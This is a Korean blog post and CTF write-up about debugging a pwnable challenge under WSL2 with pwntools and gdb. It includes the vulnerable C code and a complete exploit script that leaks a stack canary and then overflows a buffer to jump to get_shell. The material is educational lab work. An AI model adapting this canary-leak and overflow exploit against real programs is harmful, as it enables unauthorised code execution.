 ```yaml
---
layout: post
title:  "Debugging in WSL2"
date:   2020-10-03
categories: ["2020","pwnable","tips"]
update: 2020-10-03
comment: true
tags: [pwnable,tips]
---
```



최근에 `WSL2`를 이용해서 pwnable 문제들을 풀고 있는데 pwnable이 오랜만이라 디버깅할 일이 많다.. 근데 자꾸 디버깅을 빨리빨리 못해서 시간이 끌리는 문제들이 많아서 연습할 겸 정리도 할겸 **Let's go **😈

> 🚀 많이 배운 짱짱 블로그
>
> https://cosyp.tistory.com/229

문제 풀면서 디버깅을 한 과정을 다시 밟아보자.

### 🔍Code

``` c
switch( select[0] ) {
            case 'F':
                printf("box input : ");
                read(0, box, sizeof(box));
                break;
            case 'P':
                printf("Element index : ");
                scanf("%d", &idx);
                print_box(box, idx);
                break;
            case 'E':
                printf("Name Size : ");
                scanf("%d", &name_len);
                printf("Name : ");
                read(0, name, name_len);
                return 0;
            default:
                break;
        }
```

필요한 부분만 가져왔다.

이 문제의 목표는

- `P`로 canary leak
- `E`로 BOF

이다.

쉬운 문제여서 코드 슥슥 짜서 돌렸는데 자꾸 canary값이 틀려서 `*** stack smashing detected ***`가 뜬다. 😭 그래서 디버깅을 해보기로 했다.

### 👀 Debugging

`canary`를 다 leak은 쉬우니까 leak한 후에 `BOF`를 하는 과정을 보자.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

gdb로 보면 필요한 값들의 위치를 알 수 있다.

- `name` : `ebp-0x48`
- `name_len` : `ebp-0x90`
- `canary` : `ebp-0x8`

확인해야할 점은 두 가지다.

- `name`에 입력 전 `canary`값
- `name`에 입력 후 `canary`값

이 걸 pwntools를 쓰면서 debugging을 하려면 Linux에서는 `gdb.attach(p)`하면 되는데 `WSL2`에서는 `gdb.attach(p)`가 안 된다.

그래서 코드를 이렇게 짜고:

#### 👓 part of ex.py :

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

다른 터미널에서 `gdb attach <pid>`를 해 줘야 한다.

![image](https://user-images.githubusercontent.com/51329156/94967162-848c6400-0539-11eb-92b6-2e5616c1344a.png)

3번 째 줄에 `pid`값이 나와있다. 저 값을 가지고 다른 터미널에서 `gdb attach 3097`을 해주면 저 프로세스에 gdb가 붙는다.

`gdb`가 저 프로세스에 붙는다고 해서,  코드의 실행이 멈추지 않기 때문에 `pause()`를 하지 않으면 코드가 끝까지 실행되서 종료해 버린다. 그래서 `bp`를 걸고 디버깅을 하고 싶어도 `bp`를 걸 수가 없다. 

그래서 디버깅을 하려면 위 코드처럼 `pause()` 혹은 `raw_input()`으로 코드의 실행을 멈춰서 `bp`를 걸 수 있는 시간을 벌어야 한다.

![image](https://user-images.githubusercontent.com/51329156/94966609-86a1f300-0538-11eb-94f7-453519661757.png)

#### 👻 Where to `pause()` and `bp`

**ex.py**를 다시 보면

``` python
def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    pause() # stop here!

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

pause() # stop here!
overWrite(0x80,payload)
```

1. payload를 보내기 전 후에 `pause()`가 걸려있다. 즉, `gdb`가 프로세스에 붙을 시점에는 `payload`가 전이다. 

2. 위 사진의 어셈블리 코드를 보면 `read()`가 있다. `bp`를 `0x08048864(main+313)`에다가 걸어준다. 

3. 그리고 `c(continue)`를 하면, `gdb` 입장에서는 `read`를 해야 하는데 프로세스가 아직 payload를 보내지 않은 상황이다. 그래서 `pause()`를 풀기 위해 아무 키나 입려해주면 프로세스가 입력을 보내게 되고 `c`가 자동으로 실행해서 `read()`한 상황을 디버깅 할 수 있다.

#### 🧰 Fix

**입력 전 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968353-b3a3d500-053b-11eb-8faf-4f7f5c0d5374.png)

**입력 후 덮어 쓴 `canary` 값**

![image](https://user-images.githubusercontent.com/51329156/94968381-bf8f9700-053b-11eb-8cff-7aee0064cf27.png)

endian이 거꾸로 되어서 들어가 있다. endian을 바꿔서 넣어주면 된다.👍

---

### 🔎 ex.py and shell

``` python
from pwn import *
import sys

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',14195)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

get_shell=e.symbols['get_shell']

canary=""

def canaryLeak(idx):
    p.sendlineafter("> ","P")
    p.recvuntil("Element index : ")
    p.sendline(str(idx))
    p.recv(26)
    return p.recv(2)

def overWrite(nameLen,payload):
    p.sendlineafter("> ","E")
    p.recvuntil("Name Size : ")
    p.sendline(str(nameLen))
    p.recvuntil("Name : ")
    p.send(payload)
    
canary+=canaryLeak(128)
canary+=canaryLeak(129)
canary+=canaryLeak(130)
canary+=canaryLeak(131)
canary=int(canary,16)

log.info("CANARY: "+hex(canary))

payload="A"*0x40
payload+=p32(canary,endian='big')
payload+=p32(0)
payload+=p32(0)
payload+=p32(get_shell)

overWrite(0x80,payload)

p.interactive()
```

![image-20201003054737199](C:\Users\a\AppData\Roaming\Typora\typora-user-images\image-20201003054737199.png)

👏🏻👏🏻👏🏻

❗ 쉬운 문제에 생각보다 시간을 많이 끌렸지만 디버깅 연습은 제대로 된 거 같다. 사실 저번에 친구가 풀으라고 준 pwnable.tw에 `death_note` 풀면서 디버깅을 엄청 많이 했는데, 이제 진짜 잘할 수 있을 거 같다!